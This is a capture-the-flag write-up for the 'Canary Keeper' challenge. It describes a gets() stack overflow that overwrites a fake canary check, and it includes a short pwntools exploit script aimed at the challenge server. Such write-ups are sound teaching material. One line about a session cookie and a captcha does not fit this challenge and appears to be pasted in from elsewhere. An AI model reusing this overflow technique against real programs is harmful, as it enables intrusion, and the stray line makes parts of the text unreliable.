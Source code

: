 # Canary Keeper

## Challenge

My friend gave me this executable, but it keeps giving me errors. Can you get the flag?

## Solution

We are given a binary which we can take a look at in Ghidra. At first glance it looks like the main function lets the user input a 73 bytes long string using gets, which immediatley made me curios. After reading input from the user, it uses strcmp to check if the variable below the user input on the stack is `canary`. That made me think that I need to overflow the user input field, but make sure I don't modify the stack canary. After that, it uses strcmp again to check if the next varibable is the string `FLAG`.

My first attempt was to use a Python2 payload: `python2 -c 'b"A" * 73 + b"canary" + b"FLAG"'`. Here I filled the 73 bytes buffer and added the `canary` and FLAG. However that didn't seem to work. I then remebered strcmp compares until the next null terminator. I didn't rembember how I could add a null byte in my Python2 payload, so switched to using pwntools in Python3. After the `canary` I added a p64 with a nullbyte.

An added benefit with using pwntools is that I could automatically send the payload. See solution below.

**Flag:** bcactf{s1mple_CANaRY_9b36bd9f3fd2f}

### Python
We need to specify the session cookie to validate the captcha, else we will recieve "Invalid captcha".

```python
from pwn import *

io = remote('challs.bcactf.com', 32101)

payload = b'A' * 73 + b'canary' + p64(0x0) + b'FLAG'

io.sendline(payload)

io.recvuntil(b'Flag: ')

print(io.recvall().decode())
```
